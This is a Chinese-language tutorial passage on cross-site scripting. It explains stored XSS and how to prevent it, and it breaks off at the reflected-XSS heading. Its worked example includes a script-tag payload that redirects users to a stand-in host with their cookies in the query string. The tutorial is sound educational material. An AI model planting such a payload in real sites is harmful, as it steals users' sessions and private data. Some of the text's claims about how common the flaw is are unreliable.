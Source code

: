 # 概述

跨站脚本（XSS）是浏览器侧进行的代码注入类的攻击方式。攻击者把木马代码注入到应用中，然后在特殊的场景下出发执行。

比如浏览器，攻击者会把代码注入到受害者使用的web应用中。一般来说，XSS攻击都是因为使用者对使用的web应用过度的信任。


JS是运行在受限的环境中的，不能访问用户的操作系统。因此XSS攻击不会损坏受害者的计算机。XSS攻击的目的往往是窃取私人信息。

XSS攻击主要有5种方式

# 存储型 (Stored) XSS


当web应用会存储用户输入的内容时，可能会发生存储型XSS攻击。在保持数据瘴之前，前端和后端都没有进行数据验证，就会产生严重的漏洞。如果应用加载了已经存储的数据，并将其嵌入到HTML响应页面时，代码注入就有了可乘之机。

这种攻击方式已经很少了，因为这种漏洞现在不多了并且很难找到了。

但是另一方面来说，XSS攻击的影响时很大的。一旦木马数据存在了服务，就可能被所用人使用。用户不用做任何的东动作---比如点击可疑链接等，木马就已经植入到你的应用中了。


存储型XSS攻击需要两个请求：


1.一个请求用来注入并保存木马到应用的服务器
1. 一个请求用来加载存储的木马，并嵌入到发布的HTML页面种

允许用户分享内容的网站更容易遭到存储型XSS的攻击。比如社交网站和论坛。

## Example

加入攻击者在社交网络种发现了发布评论的功能有漏洞。这个漏洞是网站页面渲染了评论的未处理过的内容。


![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/ca87f28d05a7487188764b54396e07eb~tplv-k3u1fbpfcp-watermark.image)
这样，攻击者就可以在评论中添加这样一个自定义脚本
```
<script> window.location = ‘https://example.com/?user_data=’ + document.cookies; </script>
```
一旦网站加载这个评论，就会把`script`标签加入到HTMl页面中。那么就会把用户的URL重定向到木马网站，然后通过url的查询参数发送所有的cookies信息。这样木马网站就窃取了cookie和隐私数据。

因为很多人都可以看你的评论，所以他们都可能受到攻击。

这个案例比较粗糙，我们不希望任何的社交网站有这么低级的漏洞，它只是用来简单的说明存储型XSS攻击。

## 预防


防止存储型XSS最有效的途径，是在保存之前要确保所有的用户输入是纯净的。

一般通过字符串检查和转义来保证内容无害。

# 反射型 XSS
